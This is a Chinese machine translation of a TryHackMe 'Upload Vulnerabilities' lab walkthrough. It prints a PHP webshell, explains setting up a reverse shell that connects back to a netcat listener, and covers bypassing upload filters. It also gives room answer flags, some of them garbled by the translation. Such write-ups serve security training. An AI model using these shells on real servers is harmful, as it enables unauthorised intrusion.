# 上传漏洞 TryHackme 书面报告

> 原文：<https://infosecwriteups.com/upload-vulnerabilities-tryhackme-writeup-f6fba1dad902?source=collection_archive---------0----------------------->

## **这是 Tryhackme room“上传漏洞”的文字记录**



https://tryhackme.com/room/uploadvulns

https://tryhackme.com/room/uploadvulns
**注:此房间只对高级会员开放。谁购买了高级会员。**

教程室探索网站中一些基本的文件上传漏洞。首先，让我们部署机器，让它有几分钟的启动时间。*利用 MIME 和幻数攻击 TryHackMe 上传漏洞*

本演练室最终任务需要测试和解决的技能有:**反壳**、**打嗝套件**、**上传漏洞**、**客户端绕过扩展过滤**。

首先，让我们部署机器，让它有几分钟的启动时间。

单击“部署”后，您需要配置自己的计算机以便能够连接。
*(注意:对于 TryHackMe 机器来说，这是一个不正常的步骤，但必须完成才能访问此房间的实际内容)*

如果您已经成功地部署了机器，那么下面的命令将已经填充了 IP 地址。如果其中任何一个包含“MACHINE_IP ”,那么您仍然需要部署机器，下面的指令将不起作用。

# 任务 1 开始

**如果你使用的是 Linux 或者 MacOS** ，打开一个终端，输入下面的命令，然后回车:

```
echo "MACHINE_IP    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm" | sudo tee -a /etc/hosts
```

完成房间后，运行以下命令将主机文件恢复正常:

```
sudo sed -i '$d' /etc/hosts
```

**如果您正在使用 Windows** ，通过搜索“Powershell”，右键单击“Windows Powershell”，然后单击“以管理员身份运行”，打开管理员 Powershell 窗口。



键入以下命令并按 enter 键:

```
AC C:\Windows\System32\drivers\etc\hosts "MACHINE_IP   overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm"
```

完成房间后，使用以下命令将主机文件恢复正常:

```
(GC C:\Windows\System32\drivers\etc\hosts | select -Skiplast 1) | SC C:\Windows\System32\drivers\etc\hosts
```

您现在应该能够访问虚拟机了，让我们开始吧！

# 任务 2 简介

这个房间的目的是探索由于不正确(或不充分)处理文件上传而导致的一些漏洞。具体来说，我们将关注:

*   覆盖服务器上的现有文件
*   在服务器上上传和执行 Shells
*   绕过客户端过滤
*   绕过各种服务器端过滤
*   愚弄内容类型验证检查

# 任务 4 覆盖现有文件

在您亲自尝试之前，让我们先看一个例子。请注意，demo.uploadvulns.thm 将用于所有演示；但是，该站点在上传的虚拟机中不可用。这纯粹是为了演示的目的。

在下图中，我们有一个带有上传表单的网页:



对于真正的挑战，您可能需要列举更多的内容；但是，在这种情况下，让我们只看一下页面的源代码:



在红框内，我们看到了负责显示我们在页面上看到的图像的代码。它来自一个名为“spaniel.jpg”的文件，在一个名为“images”的目录下。

现在我们知道图像是从哪里提取的，我们能覆盖它吗？

让我们从网上下载另一张图片，称之为 spaniel.jpg**。然后，我们将它上传到网站，看看我们是否可以覆盖现有的图像:**

********

**我们的攻击成功了！我们设法用自己的副本覆盖了原始的**图片/spaniel.jpg** 。**

**现在，让我们把这个付诸实践。**

**打开网络浏览器，导航至**overwrite . uploadvulns . thm**。你的目标是用你自己的上传覆盖服务器上的文件。**

1.  **可以被覆盖的图像文件的名称是什么？**

> ****答案:mountains.jpg****

1.  **覆盖图像。你收到的国旗是什么？**

> ****答案:THM { otbiodq 3 ymnjywzhm 2 uymmyzdnizji 5 }****

# **任务 5 远程代码执行**

**覆盖服务器上存在的文件是一件好事。这对维护站点的人来说是个麻烦，可能会导致一些漏洞，但是让我们更进一步；让我们去 RCE 吧！**

**Web 外壳:**

**假设我们找到了一个带有上传表单的网页:**

****

**我们将何去何从？好吧，让我们从一个 gobuster 扫描开始:**

****

**看起来我们这里有两个目录— `uploads`和`assets`。其中，我们上传的任何文件都可能被放在“上传”目录中。我们将首先尝试上传一个合法的图像文件。在这里，我选择了上一个任务中可爱狗狗的照片:**

********

**现在，如果我们去[http://demo.uploadvulns.thm/uploads](http://demo.uploadvulns.thm/uploads)我们应该看到西班牙猎犬的图片已经上传了！**

********

**好了，我们可以上传图像了。现在让我们尝试一个 webshell。**

**事实上，我们知道这个 web 服务器是用 PHP 后端运行的，所以我们将直接跳到创建和上传 shell。现实生活中，我们可能需要多做一点枚举；然而，无论如何，PHP 都是一个很好的起点。**

**一个简单的 webshell 的工作方式是接受一个参数并将其作为系统命令执行。在 PHP 中，这样做的语法是:**

```
<?php
    echo system($_GET["cmd"]);
?>
```

**这段代码接受一个 GET 参数，并将其作为系统命令执行。然后它将输出回显到屏幕上。**

**让我们试着把它上传到站点，然后用它来显示我们当前的用户和当前目录的内容:**

****

**成功！**

**我们现在可以使用这个 shell 从系统中读取文件，或者从这里升级到反向 shell。现在我们有了 RCE，选择是无限的。注意，当使用 webshells 时，通过查看页面的源代码来查看输出通常更容易。这极大地改进了输出的格式。**

****反向炮弹:****

**上传反向 shell 的过程与上传 webshell 的过程几乎相同，因此这一部分会更短。我们将使用无处不在的 Pentest Monkey reverse shell，它默认出现在 Kali Linux 上，但也可以从这里下载。您需要编辑 shell 的第 49 行。它现在会说**

```
$ip = '127.0.0.1';  // CHANGE THIS
```

**—按照指示，将`127.0.0.1`更改为您的 TryHackMe tun0 IP 地址，该地址可在[访问页面](https://tryhackme.com/access)上找到。下面这一行也要求更改，可以忽略。编辑完 shell 后，我们需要做的下一件事是启动一个 Netcat 监听器来接收连接。`nc -lvnp 1234`:**

****

**现在，让我们上传 shell，然后通过导航到[http://demo.uploadvulns.thm/uploads/shell.php](http://demo.uploadvulns.thm/uploads/shell.php)来激活它。这个 shell 的名字很明显就是您给它起的名字(默认为`php-reverse-shell.php`)。**

**网站应该会挂起，不能正常加载——但是，如果我们切换回我们的终端，我们有一个点击！**

****

**再一次，我们在这个网络服务器上获得了 RCE。从这里开始，我们希望稳定我们的外壳，提升我们的特权，但这些是以后的任务。现在，是你自己尝试一下的时候了！**

**导航至`shell.uploadvulns.thm`并完成该任务的问题。**

1.  **使用上面截图中的语法在网站上运行 Gobuster 扫描。什么目录看起来像是上传用的？(注意:这是一个需要养成的好习惯，在接下来的任务中会对你大有裨益……)**

## **Gobuster**

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [http://shell.uploadvulns.thm](http://shell.uploadvulns.thm)
```

**/资源(状态:301)
/资产(状态:301)**

**[http://shell.uploadvulns.thm/resources/](http://shell.uploadvulns.thm/resources/)**

1.  **在机器上获取 web shell 或反向 shell。服务器的/var/www/目录中的标志是什么？**

**启动 Netcat 监听器**

> ****nc -lnvp 9001****

```
$ cd /var/www/
$ ls
flag.txt
html
$ cat flag.txt
THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}
```

> ****答案:THM { ywfhy 2 u 3 zgi 4 N2 qxnmqzzjk 0 yjgzzdzk }****

# **任务 6 过滤**

**到目前为止，我们在很大程度上忽略了 web 开发者用来防御文件上传漏洞的反防御措施。到目前为止，这个房间里你成功攻击过的所有网站都是完全不安全的。是时候改变了。从现在开始，我们将研究一些用于防止恶意文件上传的防御机制，以及如何规避它们。**

**首先，让我们讨论客户端过滤和服务器端过滤的区别。**

**在 web 应用程序的上下文中，当我们谈论“客户端”脚本时，我们指的是它运行在用户的浏览器中，而不是在 web 服务器本身上。JavaScript 作为客户端脚本语言几乎无处不在，尽管也存在替代语言。无论使用何种语言，客户端脚本都将在您的 web 浏览器中运行。在文件上传的上下文中，这意味着过滤甚至发生在文件上传到服务器之前。理论上，这似乎是一件好事，对吗？在一个理想的世界里，它会是；然而，因为过滤是在我们的计算机上进行的，所以很容易绕过它。因此，客户端过滤本身是一种非常不安全的验证上传文件没有恶意的方法。**

**相反，正如您可能已经猜到的，服务器端脚本将在服务器上运行。传统上，PHP 是主要的服务器端语言；然而，近年来，其他选项(C#、Node.js、Python、Ruby on Rails 以及其他各种选项)得到了更广泛的使用。服务器端过滤往往更难绕过，因为您面前没有代码。由于代码是在服务器上执行的，在大多数情况下，完全绕过过滤器也是不可能的；相反，我们必须形成一个有效载荷，它符合适当的过滤器，但仍然允许我们执行我们的代码。**

**记住这一点，让我们看看一些不同种类的过滤。**

**扩展验证:**

**文件扩展名(理论上)用于标识文件的内容。实际上它们很容易改变，所以实际上没有多大意义；然而，MS Windows 仍然使用它们来识别文件类型，尽管基于 Unix 的系统倾向于依赖于其他方法，我们稍后会谈到。检查扩展名的过滤器以两种方式之一工作。它们或者将扩展列入黑名单(即，具有不允许的扩展的列表)，或者将扩展列入白名单(即，具有允许的扩展的列表，并拒绝其他所有扩展)。**

****文件类型过滤:****

**与扩展名验证类似，但更为深入，文件类型过滤再次检查文件内容是否可以上传。我们将了解两种类型的文件类型验证:**

*   ****MIME 验证:MIME(多用途互联网邮件扩展)**类型被用作文件的标识符——最初是在通过电子邮件作为附件传输时，但现在也在通过 HTTP 传输文件时使用。文件上传的 MIME 类型附加在请求的报头中，如下所示:**

****

*   **MIME 类型遵循格式 <type>/ <subtype>。在上面的请求中，您可以看到图像“spaniel.jpg”被上传到服务器。作为合法的 JPEG 图像，这次上传的 MIME 类型是“image/jpeg”。可以在客户端和/或服务器端检查文件的 MIME 类型；然而，由于 MIME 是基于文件的扩展名，这是非常容易绕过的。</subtype></type>**
*   **幻数验证:幻数是确定文件内容的更准确的方法；虽然，他们绝不是不可能伪造的。文件的“幻数”是文件内容最开头的一串字节，用于标识内容。例如，一个 PNG 文件在文件的最顶端会有这些字节:89 50 4E 47 0D 0A 1A 0A。**

****

*   **与 Windows 不同，Unix 系统使用幻数来识别文件；但是，在处理文件上传时，可以检查上传文件的幻数，以确保可以安全接受。这绝不是一个有保证的解决方案，但它比检查文件的扩展名更有效。**

****文件长度过滤:****

**文件长度过滤器用于防止大型文件通过上传表单上传到服务器(因为这可能会导致服务器资源不足)。在大多数情况下，当我们上传 shells 时，这不会给我们带来任何问题；但是，值得记住的是，如果上传表单只希望上传一个非常小的文件，那么可能会有一个长度过滤器来确保遵守文件长度要求。举个例子，上一个任务中我们完全成熟的 PHP 反向 shell 有 5.4Kb 大——相对来说很小，但是如果表单期望最大 2Kb，那么我们需要找到一个替代的 shell 来上传。**

****文件名过滤:****

**如前所述，上传到服务器的文件应该是唯一的。通常这意味着给文件名添加一个随机的方面，然而，另一种策略是检查服务器上是否已经存在同名的文件，如果存在，则给用户一个错误。此外，应在上传时对文件名进行清理，以确保它们不包含任何“坏字符”，这些“坏字符”可能会在上传时导致文件系统出现问题(例如，Linux 上的空字节或正斜杠，以及控制字符，如`;`和可能的 unicode 字符)。这对我们来说意味着，在一个管理良好的系统上，我们上传的文件不太可能与我们上传前给它们的名字相同，所以请注意，如果您设法绕过内容过滤，您可能不得不寻找您的 shell。**

****文件内容过滤:****

**更复杂的过滤系统可能会扫描上传文件的全部内容，以确保它没有伪造扩展名、MIME 类型和幻数。与大多数基本过滤系统相比，这是一个非常复杂的过程，因此不在此讨论。**

**值得注意的是，这些过滤器本身都不是完美的——它们通常会相互结合使用，提供多层过滤器，从而显著增加上传的安全性。这些过滤器中的任何一个都可以应用于客户端、服务器端或两者。**

**类似地，不同的框架和语言都有自己固有的过滤和验证上传文件的方法。因此，可能会出现针对特定语言的攻击；例如，在 PHP 主要版本 5 之前，可以通过在恶意的`.php`文件后面附加一个空字节和一个有效的扩展名来绕过扩展名过滤器。最近，还可以将 PHP 代码注入到一个有效图像文件的 exif 数据中，然后强制服务器执行它。如果你有兴趣，欢迎你进一步研究这些东西。**

1.  **传统的服务器端脚本语言是什么？**

> ****答案:php****

1.  **当通过文件扩展名进行验证时，您将接受的扩展名列表称为什么(服务器拒绝不在列表中的任何扩展名)？**

> ****答案:白名单****

1.  **[研究]上传 CSV 文件时，您希望看到哪种 MIME 类型？**

> ****答案:text/csv****

# **任务 7 绕过客户端过滤**

**我们将从第一道(也是最薄弱的)防线开始:客户端过滤。**

**如前所述，客户端过滤非常容易被绕过，因为它完全发生在您控制的机器上。当你能接触到代码时，修改它是非常容易的。**

**有四种简单的方法可以绕过普通的客户端文件上传过滤器:**

1.  **关闭浏览器中的 Javascript——如果网站不需要 Javascript 来提供基本功能，这也可以。如果完全关闭 Javascript 会阻止网站运行，那么其他方法会更好；否则，这可能是完全绕过客户端过滤器的有效方法。**
2.  **拦截并修改传入的页面。使用 Burpsuite，我们可以拦截传入的网页，并在 Javascript 过滤器有机会运行之前将其去除。这一过程将在下面介绍。**
3.  **拦截并修改文件上传。前一种方法在网页加载前有效，这种方法允许网页正常加载，但在文件已经通过(并被过滤器接受)后拦截文件上传。同样，我们将介绍在任务过程中使用这种方法的过程。**
4.  **将文件直接发送到上传点。既然可以使用`curl`这样的工具直接发送文件，为什么还要使用带有过滤器的网页呢？将数据直接发布到包含处理文件上传的代码的页面是另一种完全绕过客户端过滤器的有效方法。在本教程中，我们不会深入讨论这个方法，但是，这样一个命令的语法应该是这样的:**curl-X POST-F " submit:<value>-F "<file-parameter>:@<path-to-file>"<site>**。要使用这种方法，您首先要拦截一次成功的上传(使用 Burpsuite 或浏览器控制台),以查看上传中使用的参数，然后可以将这些参数插入到上面的命令中。**

**我们将在下面深入讨论方法二和方法三。**

**让我们再次假设，我们在网站上找到了一个上传页面:**

****

**像往常一样，我们将看看源代码。这里我们看到一个基本的 Javascript 函数检查上传文件的 MIME 类型:**

****

**在这个例子中，我们可以看到过滤器使用白名单来排除任何不是`image/jpeg`的 MIME 类型。**

**我们的下一步是尝试文件上传——正如所料，如果我们选择 JPEG，函数会接受它。否则上传将被拒绝。**

**建立了这个，让我们开始 [Burpsuite](https://blog.tryhackme.com/setting-up-burp/) 并重新加载页面。我们将看到自己对站点的请求，但我们真正想看到的是服务器的响应，所以右键单击截取的数据，向下滚动到“Do Intercept”，然后选择“Response to this request”:**

****

**当我们单击窗口顶部的“转发”按钮时，我们将看到服务器对我们请求的响应。在这里，我们可以在 Javascript 函数有机会加载之前删除、注释掉或以其他方式中断它:**

